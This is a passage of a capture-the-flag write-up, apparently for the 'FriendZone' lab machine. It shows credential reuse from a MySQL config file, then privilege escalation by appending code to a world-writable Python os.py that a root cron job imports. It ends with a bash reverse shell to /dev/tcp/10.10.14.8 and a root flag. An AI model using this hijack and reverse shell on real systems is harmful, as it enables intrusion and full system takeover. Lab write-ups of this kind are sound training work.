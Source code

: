 #### 7.1. SSH creds for `friend`

```
www-data@FriendZone:/var/www$ cat mysql_data.conf | awk 'NF'
for development process this is the mysql creds for user friend
db_user=friend
db_pass=Agpyu12!0.213$
db_name=FZ
```
Note: `ssh friend@10.10.10.123`

#### 7.2. Privesc enum (python-core file can be overwritten)

```
friend@FriendZone:/$ find / -perm 777 -type f 2>/dev/null | grep -v '/proc' | more
/usr/lib/python2.7/os.py
friend@FriendZone:/$ cp /usr/lib/python2.7/os.py /usr/lib/python2.7/os.py.backup
friend@FriendZone:~$ ./pspy64
2019/04/24 13:50:01 CMD: UID=0    PID=39692  | /usr/bin/python /opt/server_admin/reporter.py
2019/04/24 13:50:01 CMD: UID=0    PID=39691  | /bin/sh -c /opt/server_admin/reporter.py
2019/04/24 13:50:01 CMD: UID=0    PID=39690  | /usr/sbin/CRON -f
friend@FriendZone:/$ ls -la /opt/server_admin/reporter.py
-rwxr--r-- 1 root root 424 Jan 16 22:03 /opt/server_admin/reporter.py
friend@FriendZone:/$ grep import /opt/server_admin/reporter.py
import os
```

#### 7.3. Test payload

a. Appended to `/usr/lib/python2.7/os.py`
```python
from subprocess import call
call(["touch", "/dev/shm/ok"])
```

b. Result
```
friend@FriendZone:/dev/shm$ ls -la ok
-rw-r--r-- 1 root root 0 Apr 24 14:32 ok
```

#### 7.4. Get reverse shell

a. Appended to `/usr/lib/python2.7/os.py`
```
system("/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.8/9191 0>&1'")
```

b. Result
```
# nc -nlvp 9191
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::9191
Ncat: Listening on 0.0.0.0:9191
Ncat: Connection from 10.10.10.123.
Ncat: Connection from 10.10.10.123:44002.
bash: cannot set terminal process group (40784): Inappropriate ioctl for device
bash: no job control in this shell
root@FriendZone:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@FriendZone:~# cat root.txt
cat root.txt
b0e6c60b82cf96e9855ac1656a9e90c7
```
